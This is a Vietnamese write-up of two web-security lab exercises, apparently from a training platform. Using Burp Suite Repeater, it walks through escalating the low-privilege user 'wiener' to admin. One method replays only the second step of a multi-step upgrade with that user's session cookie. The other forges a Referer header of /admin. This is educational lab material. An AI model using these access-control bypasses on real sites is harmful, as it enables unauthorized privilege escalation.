Đăng nhập bằng tài khoản admin cho sẵn trong mô tả và test chức năng nâng quyền user.


Cần 2 bước: chọn user để nâng quyền và xác nhận nâng quyền.

Quay vào Burp Suit, mở `HTTP history,`gửi request “chọn user để nâng quyền” và request “xác nhận nâng quyền” vào `Repeater`


Logout user `administration` trên browser và login bằng user `wiener` để lấy cookie `session` của user này. Thay cookie `session` trong Repeater bằng cookie vừa lấy được.

Khi gửi request step thứ nhất (chọn user để nâng quyền), ta bị chặn do không có quyền truy cập.


Nhưng khi gửi request step thứ hai (xác nhận nâng quyền), server đã accept request và nâng quyền cho `wiener`


### Referer-based access control

Truy cập trang admin bằng tài khoản được cung cấp trong mô tả, thử tính năng nâng quyền user


Vào `HTTP history` tìm request nâng quyền, gửi nó vào repeater


Ta có thể thấy, kể cả khi user là admin, ta vẫn bị error code 401 nếu không có header `Referer`. Như vậy ta có thể đoán được server sẽ cấp quyền truy cập các trang con của `/admin` bằng cách kiểm tra xem `Referrer` có phải `/admin` hay không.


Login bằng user `wiener`, lấy cookie `session` để thay vào request ban đầu (có `Referrer` là `/admin`) và để `?username=wiener`


Ta đã leo quyền thành công.